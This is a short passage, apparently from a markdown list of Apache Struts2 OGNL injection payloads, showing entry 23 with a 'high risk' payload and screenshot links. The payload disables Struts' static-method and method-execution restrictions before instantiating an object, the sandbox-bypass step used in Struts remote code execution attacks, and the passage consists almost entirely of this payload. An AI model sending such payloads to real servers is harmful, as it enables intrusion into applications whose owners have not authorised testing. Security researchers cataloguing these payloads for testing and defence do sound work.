   ![](./imgs/chop-22-001.png)


### 23 = "java.lang.Object"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.Object()}
  ```
  ![](./imgs/chop-23-001.png)
